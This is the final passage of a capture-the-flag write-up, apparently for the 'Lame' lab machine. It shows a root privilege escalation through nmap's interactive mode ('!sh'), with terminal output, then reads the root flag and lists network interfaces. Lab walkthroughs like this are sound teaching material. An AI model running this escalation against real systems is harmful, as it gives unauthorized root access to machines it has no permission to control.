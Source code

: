<br />
Enter nmap interactive mode and use !sh to enter a shell.

{% raw %}
```sh
daemon@lame:/dev/shm$ nmap --interactive
nmap --interactive

Starting Nmap V. 4.53 ( http://insecure.org )
Welcome to Interactive Mode -- press h <enter> for help
nmap> !sh
!sh
sh-3.2# whoami
whoami
root
```
{% endraw %}

<br />
Get the root.txt flag.

{% raw %}
```sh
sh-3.2# cat /root/root.txt
cat /root/root.txt
<redacted>
sh-3.2# ifconfig
ifconfig
eth0      Link encap:Ethernet  HWaddr 00:50:56:b9:a6:d6  
          inet addr:10.10.10.3  Bcast:10.10.10.255  Mask:255.255.255.0
          inet6 addr: dead:beef::250:56ff:feb9:a6d6/64 Scope:Global
          inet6 addr: fe80::250:56ff:feb9:a6d6/64 Scope:Link
          UP BROADCAST RUNNING MULTICAST  MTU:1500  Metric:1
          RX packets:140134 errors:0 dropped:0 overruns:0 frame:0
          TX packets:2006 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:1000 
          RX bytes:9497002 (9.0 MB)  TX bytes:351762 (343.5 KB)
          Interrupt:19 Base address:0x2024 

lo        Link encap:Local Loopback  
          inet addr:127.0.0.1  Mask:255.0.0.0
          inet6 addr: ::1/128 Scope:Host
          UP LOOPBACK RUNNING  MTU:16436  Metric:1
          RX packets:1685 errors:0 dropped:0 overruns:0 frame:0
          TX packets:1685 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:0 
          RX bytes:798921 (780.1 KB)  TX bytes:798921 (780.1 KB)
```
{% endraw %}

<br />
Thank you so much for reading.  Hopefully my post wasn't too lame.